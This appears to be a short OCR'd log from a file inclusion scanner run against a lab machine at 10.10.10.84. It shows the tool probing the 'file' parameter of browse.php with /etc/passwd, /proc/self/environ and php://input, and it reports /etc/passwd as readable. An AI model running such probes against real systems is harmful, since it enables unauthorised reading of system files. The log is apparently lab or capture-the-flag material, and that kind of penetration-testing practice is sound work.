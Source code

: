 [14:53:52] [OUT] [PHP] Identifying Vulnerability 'http://10.10.10.84/browse.php?file=' with Parameter 'file'...

[14:53:53] [INFO] Scriptpath received: '/usr/local/www/apache24/data'

[14:53:53] [INFO] Operating System is 'Unix-Like'.

[14:53:53] [INFO] Testing file '/etc/passwd'...

[14:53:53] [INFO] Testing file '/proc/self/environ'...

[14:53:53] [INFO] Testing file 'php://input'...

....

....

########################################################

#[1] Possible PHP-File Inclusion #

########################################################

#::REQUEST #

# [URL] http://10.10.10.84/browse.php?file= #

# [HEAD SENT] #

#::VULN INFO #

# [GET PARAM] file #

# [PATH] /usr/local/www/apache24/data #

# [OS] Unix #

# [TYPE] Absolute Clean #

# [TRUNCATION] No Need. It's clean. #

# [READABLE FILES] #

# [0] /etc/passwd #

########################################################</pre>
